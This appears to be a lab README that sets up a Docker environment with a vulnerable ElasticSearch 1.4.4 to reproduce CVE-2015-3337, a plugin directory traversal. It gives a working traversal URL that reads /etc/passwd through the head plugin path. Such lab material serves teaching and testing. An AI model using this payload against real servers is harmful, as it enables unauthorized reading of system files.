

# ElasticSearch Plug-in Directory Traversal (CVE-2015-3337)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

In the ElasticSearch versions before 1.4.5 and 1.5.x before 1.5.2, a directory traversal vulnerability exists in ElasticSearch's plugin functionality that allows attackers to read arbitrary files on the system.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2015-3337>
- <https://github.com/elastic/elasticsearch/issues/10828>

## Vulnerability Description

After installing a plugin with "site" functionality, an attacker can use `../` in the plugin directory path to traverse up the directory tree, leading to arbitrary file read. ElasticSearch installations without any plugins are not affected.

## Environment Setup

Execute the following commands to build and start an ElasticSearch server 1.4.4:

```
docker compose build
docker compose up -d
```

The test environment comes with a pre-installed plugin: `elasticsearch-head`, which is a web front-end for ElasticSearch. More information about this plugin can be found at: <https://github.com/mobz/elasticsearch-head>

## Vulnerability Reproduction

To exploit this vulnerability, send a request to read arbitrary files using directory traversal in the plugin path. For example, to read `/etc/passwd`, send a request to:

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```

Note: Do not access this URL directly in a browser.



## Additional Information

The head plugin provides a web interface for ElasticSearch. You can access it at `http://your-ip:9200/_plugin/head/` to interact with your ElasticSearch cluster through a graphical interface.
